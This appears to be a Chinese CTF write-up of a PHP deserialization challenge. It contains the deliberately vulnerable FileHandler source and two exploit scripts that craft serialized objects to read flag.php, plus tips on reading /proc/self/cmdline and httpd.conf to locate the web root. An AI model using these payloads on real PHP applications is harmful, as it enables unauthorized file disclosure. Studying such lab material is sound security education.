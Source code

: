 # 考察知识点：

1.php7.1+版本对属性类型不敏感

2.反序列化



反思：该题的知识点，protected类型序列化时产生不可显示字符，题目对此做了限制

该知识点可在p神星球中找到，搜索也能找到一个关键字php7.1+版本对属性类型不敏感，应该深入下去。



```javascript
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

//确保输入的字符串ascii在32-125之间
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125)){
            echo "失败lalalal";
            return false;
        }

    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```



write函数不能利用，__destruct（）将content替换为空，不能用来写shell

设置 op为2，利用reder读取flag.php文件

```javascript
    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }
```



利用==和===的差异，设置op=2可以绕过__destruct的限制



exp:

```javascript
<?php

class FileHandler {

    protected $op = 2;
    protected $filename = "/var/www/html/flag.php";
}

$fh=new FileHandler();
$s=serialize($fh);


$s=str_replace(chr(0),'\00',serialize($fh));
echo urlencode(str_replace('s','S',$s));

```



其中需要使用绝对路径，不能直接flag.php。绝对路径可通过读取

/proc/self/cmdline 查看正在运行的进程得到httpd配置文件

/web/config/httpd.conf拿到web根目录

/web/html/flag.php拿到flag存储位置



也可以通过伪协议读取flag.php



exp2:

php7.1+版本对属性类型不敏感，直接修改类型为public绕过

```javascript
<?php
//https://www.t00ls.net/articles-56352.html
class FileHandler {

    public $op = 2;
    public $filename = "/var/www/html/flag.php";
}

$fh=new FileHandler();
echo urlencode(serialize($fh));
```





